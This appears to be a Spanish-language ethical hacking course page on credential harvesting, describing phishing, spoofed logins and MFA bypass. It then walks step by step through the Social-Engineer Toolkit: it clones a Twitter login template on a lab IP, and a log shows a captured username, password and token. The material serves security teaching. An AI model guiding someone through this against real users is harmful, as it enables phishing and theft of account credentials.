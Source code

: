 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

La recolección de credenciales es una técnica de recopilan credenciales de usuario (como ID de usuario, direcciones de correo electrónico, contraseñas y otra información de inicio de sesión).

### ¿Cómo funciona la recolección de credenciales?

Lo más habitual es que se instale un recolector de credenciales  como una extensión maliciosa de un sitio web o una aplicación. Una vez instalado, el recolector registra cualquier información que los usuarios ingresen durante el proceso de inicio de sesión.

Debido a que los recolectores de credenciales registran todos los inicios de sesión de manera indiscriminada, los ciberdelincuentes pueden crear una reserva de nombres de usuario y contraseñas.

Si un ciberdelincuente tiene acceso a una o más contraseñas comprometidas que un individuo usó en el pasado, esa credencial le proporciona un excelente punto de partida para adivinar su información de inicio de sesión para otros sitios o sistemas.

### Técnicas comunes utilizadas en ataques de recolección de credenciales <a href="#techniques" id="techniques"></a>

La recolección de credenciales normalmente se lleva a cabo junto con otra técnica de ciberataque. Métodos de ataque más frecuentes incluyen los siguientes:

* **Malware**
* **Phishing**
* **Suplantación de dominio**
* **Ataques Man-in-the-Middle (MitM)**

La recolección de credenciales no es un tipo de ataque nuevo, pero las metodologías utilizadas por los atacantes han evolucionado a lo largo de los años. La recolección de credenciales (o recolección de contraseñas) es el acto de recopilar y robar nombres de usuario, contraseñas, tokens, PIN y cualquier otro tipo de credenciales válidos a través de violaciones de infraestructura. En el Módulo 4, “Ataques de ingeniería social”, aprendió todo sobre el phishing y los ataques de phishing. Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima. La Figura 7-1 muestra un ejemplo de un ataque común de recolección de credenciales en el que el atacante envía a la víctima un correo electrónico de phishing que incluye un enlace a un sitio falso (en este ejemplo, un inicio de sesión de Twitter).

_**Figura 7-1**_ _: Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing_

Agresor1. Correo electrónico con enlace a inicio de sesión falso en TwitterVíctima3. El atacante roba credencialesSitio falso de inicio de sesión en Twitter2. El usuario ingresa las credenciales

En el Módulo 4, aprendió sobre el Conjunto de herramientas de ingeniería social (SET). En los siguientes ejemplos, verá lo fácil que es realizar un ataque de ingeniería social y crear una instancia de un sitio web falso (en este caso, un sitio de inicio de sesión de Twitter falso) para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit** .

**Paso 2** . Seleccione **1) Ataques de ingeniería social** en el menú principal, como se muestra en el Ejemplo 7-1.

_**Ejemplo 7-1**_  : Inicio del ataque de ingeniería social

<pre><code><strong>                Select from the menu:   1) Social-Engineering Attacks   2) Penetration Testing (Fast-Track)   3) Third Party Modules   4) Update the Social-Engineer Toolkit   5) Update SET configuration   6) Help, Credits, and About  99) Exit the Social-Engineer Toolkitset> 1
</strong></code></pre>

**Paso 3** . En el menú que aparece (ver Ejemplo 7-2), seleccione **2) Vectores de ataque a sitios web** .

_**Ejemplo 7-2**_  : Selección de vectores de ataque a sitios web

<pre><code><strong>                Select from the menu:    1) Spear-Phishing Attack Vectors    2) Website Attack Vectors    3) Infectious Media Generator    4) Create a Payload and Listener    5) Mass Mailer Attack    6) Arduino-Based Attack Vector    7) Wireless Access Point Attack Vector    8) QRCode Generator Attack Vector    9) Powershell Attack Vectors   10) Third Party Modules   99) Return back to the main menu.set>2 
</strong></code></pre>

<pre><code><strong>                The Web Attack module is a unique way of utilizing multiple web-basedattacks in order to compromise the intended victim.The Java Applet Attack method will spoof a Java Certificate anddeliver a metasploit based payload. Uses a customized java appletcreated by Thomas Werth to deliver the payload.The Metasploit Browser Exploit method will utilize select Metasploitbrowser exploits through an iframe and deliver a Metasploit payload.The Credential Harvester method will utilize web cloning of awebsite that has a username and password field and harvest allthe information posted to the website.The TabNabbing method will wait for a user to move to a differenttab, then refresh the page to something different.The Web-Jacking Attack method was introduced by white_sheep, emgent.This method utilizes iframe replacements to make the highlighted URLlink to appear legitimate however when clicked a window pops up thenis replaced with the malicious link. You can edit the link replacementsettings in the set_config if it's too slow/fast.The Multi-Attack method will add a combination of attacks throughthe web attack menu. For example, you can utilize the Java Applet,Metasploit Browser, Credential Harvester/Tabnabbing all at once to seewhich is successful.The HTA Attack method will allow you to clone a site and performpowershell injection through HTA files which can be used forWindows-based powershell exploitation through the browser.   1) Java Applet Attack Method   2) Metasploit Browser Exploit Method   3) Credential Harvester Attack Method   4) Tabnabbing Attack Method   5) Web Jacking Attack Method   6) Multi-Attack Web Method   7) HTA Attack Method  99) Return to Main Menuset:webattack>3
</strong></code></pre>

_**Ejemplo 7-3**_  : Selección del método de ataque de recolección de credenciales

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **3) Método de ataque de recolección de credenciales** .

<pre><code><strong>                The first method will allow SET to import a list of pre-defined webapplications that it can utilize within the attack.The second method will completely clone a website of your choosingand allow you to utilize the attack vectors within the completelysame web application you were attempting to clone.The third method allows you to import your own website, note that youshould only have an index.html when using the import websitefunctionality.   1) Web Templates   2) Site Cloner   3) Custom Import  99) Return to Webattack Menuset:webattack>1
</strong></code></pre>

_**Ejemplo 7-4**_  : Selección de una plantilla web predefinida

**Paso 5** . En el menú que aparece a continuación (ver Ejemplo 7-4), seleccione **1) Plantillas web** para utilizar una plantilla web predefinida (Twitter). Como puede ver, también tiene opciones para clonar un sitio web existente o importar un sitio web personalizado. En este ejemplo, utiliza una plantilla web predefinida.

\


**Paso 6** . En el menú que se muestra en el Ejemplo 7-5, ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario (en este caso, **192.168.88.225** ). En este ejemplo, SET ha reconocido la dirección IP del sistema atacante. Si esto le ocurre a usted, puede simplemente presionar **Enter** para seleccionar la dirección IP del sistema atacante.

_**Ejemplo 7-5**_  : Ingreso de la dirección IP del recolector de credenciales

<pre><code><strong>                [-] Credential harvester will allow you to utilize the clonecapabilities within SET[-] to harvest credentials or parameters from a website as well asplace them into a report------------------------------------------------------------------------- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *IMPORTANT * --The way that this works is by cloning a site and looking for formfields to rewrite. If the POST fields are not usual methods forposting forms this could fail. If it does, you can always save theHTML, rewrite the forms to be standard forms and use the "IMPORT"feature. Additionally, really important:If you are using an EXTERNAL IP ADDRESS, you need to place theEXTERNAL IP address below, not your NAT address. Additionally, ifyou don't know basic networking concepts, and you have a privateIP address, you will need to do port forwarding to your NAT IPaddress from your external IP address. A browser doesn't know howto communicate with a private IP address, so if you don't specifyan external IP address if you are using this from an externalperspective, it will not work. This isn't a SET issue this is hownetworking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing[192.168.88.225]:
</strong></code></pre>

**Paso 7** . Seleccione **3. Twitter** , como se muestra en el ejemplo 7-6.

_**Ejemplo 7-6**_  : Selección de la plantilla para Twitter

<pre><code><strong>                --------------------------------------------------------                 **** Important Information ****For templates, when a POST is initiated to harvestcredentials, you will need a site for it to redirect.You can configure this option under:      /etc/setoolkit/set.configEdit this file, and change HARVESTER_REDIRECT andHARVESTER_URL to the sites you want to redirect toafter it is posted. If you do not set these, thenit will not redirect properly. This only goes fortemplates.--------------------------------------------------------  1. Java Required  2. Google  3. Twitterset:webattack> Select a template:3[*] Cloning the website: http://www.twitter.com[*] This could take a little bit...The best way to use this attack is if username and password formfields are available. Regardless, this captures all POSTs on awebsite.[*] The Social-Engineer Toolkit Credential Harvester Attack[*] Credential Harvester is running on port 80[*] Information will be displayed to you as it arrives below:
</strong>
              
</code></pre>

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF). La Figura 7-2 muestra la página de inicio de sesión falsa de Twitter, donde el usuario ingresa sus credenciales.

_**Figura 7-2**_ _- Página de inicio de sesión falsa_

![](https://skillsforall.com/content/eh/1.0/m7/course/en-US/assets/edb61cd6bd789cdc4476775889252c5ef8780d77.png)

El ejemplo 7-7 muestra cómo el sistema atacante recopila las credenciales del usuario. El nombre de usuario ingresado es _santosomar_ y la contraseña es _superbadpassword_ . También puede ver el token de sesión.

_**Ejemplo 7-7**_ _: Recopilación de credenciales de usuario_

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -[*] WE GOT A HIT! Printing the output:POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomarPOSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpasswordPARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52PARAM: scribe_log=POSSIBLE USERNAME FIELD FOUND: redirect_after_login=PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"302 - 
```

Se sabe que los atacantes recopilan las credenciales de los proveedores de servicios en la nube una vez que ingresan a los sistemas de sus víctimas. Diferentes actores de amenazas han ampliado sus capacidades de recolección de credenciales para apuntar a múltiples servicios en la nube y fuera de la nube en las redes y sistemas internos de las víctimas después de la explotación de otras vulnerabilidades.

<mark style="color:red;">**Recursos**</mark>&#x20;

{% embed url="https://www.crowdstrike.com/cybersecurity-101/cyberattacks/credential-harvesting/" %}
